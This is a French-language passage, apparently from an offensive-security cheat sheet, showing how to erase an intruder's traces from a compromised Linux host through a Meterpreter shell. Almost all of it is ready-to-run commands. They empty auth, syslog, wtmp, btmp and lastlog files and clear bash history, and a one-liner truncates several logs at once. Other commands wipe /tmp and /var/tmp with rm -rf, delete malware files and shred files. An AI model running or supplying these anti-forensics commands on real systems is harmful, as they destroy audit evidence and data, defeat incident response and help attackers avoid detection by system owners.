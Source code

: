 ### **🔧 Nettoyage via shell Meterpreter**

#### **Nettoyage des logs système**
```bash
# Session Meterpreter Linux
meterpreter > shell

# Dans le shell Linux
$ > /var/log/auth.log
$ > /var/log/syslog  
$ > /var/log/messages
$ > /var/log/secure

# Historique utilisateur courant
$ > ~/.bash_history
$ history -c

# Retour Meterpreter
$ exit
```

#### **Nettoyage avancé via shell**
```bash
meterpreter > shell

# Script one-liner complet
$ for log in /var/log/{auth,syslog,messages,secure,mail,kern}.log; do [ -f $log ] && > $log; done; > ~/.bash_history; history -c

# Nettoyage fichiers temporaires
$ rm -rf /tmp/* /var/tmp/*

# Nettoyage traces réseau (si root)
$ > /var/log/wtmp
$ > /var/log/btmp  
$ > /var/log/lastlog

$ exit
```

### **📁 Suppression sécurisée via Meterpreter**

#### **Commandes de suppression**
```bash
# Suppression basique
meterpreter > rm /tmp/malicious_script.sh

# Suppression récursive
meterpreter > rm -rf /tmp/malware_folder

# Pour suppression sécurisée, utiliser shell + shred
meterpreter > shell
$ shred -vfz -n 3 /tmp/sensitive_file
$ exit
```
